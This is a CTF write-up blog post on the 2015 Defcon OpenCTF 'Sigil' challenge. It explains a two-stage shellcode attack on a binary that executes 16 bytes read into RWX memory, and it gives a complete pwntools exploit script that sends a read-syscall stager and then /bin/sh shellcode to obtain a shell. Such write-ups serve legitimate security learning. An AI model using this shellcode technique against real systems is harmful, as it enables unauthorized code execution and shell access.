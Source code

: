 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Sigil"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main funciton of Sigil:

![Sigil main](/assets/images/sigil.png)

The following occurs:

* memory region is set to `read-write-execute` permissions
* read() of length 16 into that memory region
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload which will continue executing after our stage 1 payload.

We can call `read` via `syscall` to make this shellcode small. The following must be setup for this to work:

* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage 1 shellcode is below:

```
mov rsi, rdx  # rdx already contains our buffer location
mov edx, 0x30 # set our read length
add rsi, 10   # Move our buffer addr, so we don't overwrite our initial shellcode
syscall       # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

## Final Exploit

```python
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()
```

